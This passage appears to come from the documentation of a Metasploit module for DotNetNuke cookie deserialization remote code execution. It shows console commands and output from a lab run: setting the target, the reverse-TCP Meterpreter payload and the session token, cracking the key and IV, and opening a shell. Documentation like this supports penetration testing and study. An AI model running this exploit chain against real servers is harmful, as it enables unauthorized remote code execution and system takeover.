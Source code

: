   ```
  meterpreter >
  ``` 
### v9.2.0 - v9.2.1
  Here's the expected output:
  
  ```
  msf5 > use exploit/windows/http/dnn_cookie_deserialization_rce 
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set RHOSTS 192.168.31.131
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set RPORT 8085
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set LHOST 192.168.31.128
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set LPORT 443
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_CODE xR9oL8FP2eE_
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_PLAIN 0-3
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set ENCRYPTED true
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set SESSION_TOKEN 20FED393A44F86138D9089074C819880222A494155CEFAC6FEAF2B3B5204A227625654D87EA48ECB1E509664A7E8E32644BD363D3E6FD3A3273B245EF2D10B5E13D7912B
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > check

  [*] Trying to determine DNN Version...
  [*] Checking version at /Documentation/License.txt ...
  [!] DNN Version Found: v9.2.0+ - Requires ENCRYPTED and SESSION_TOKEN. Setting target to 3 (v9.2.0 - v9.2.1). Site may also be 9.2.2 - try setting target 4 and supply a file of of verification codes, or specifiy valid Key and IV values.
  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [+] 192.168.31.131:8085 - The target appears to be vulnerable.
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > exploit

  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [*] Finding Key...
  [*] Searching at 641992.579 keys/s ...... 1.47% of keyspace complete.
  [+] KEY Found: 022BA242
  [+] IV Found: 0BCF9976
  [*] Total number of Keys tried: 633602
  [*] Time to crack: 0.987 seconds
  [*] Started reverse TCP handler on 192.168.31.128:443 
  [*] Sending Exploit Payload to: /__ ...
  [*] Sending stage (179779 bytes) to 192.168.31.131
  [*] Meterpreter session 1 opened (192.168.31.128:443 -> 192.168.31.131:49971) at 2019-07-10 15:08:04 -0400

  meterpreter > sysinfo
  Computer        : SERVER_NAME
  OS              : Windows 2016 (Build 14393).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ```
### v9.2.2 - v9.3.0-RC
  Here's the expected output:

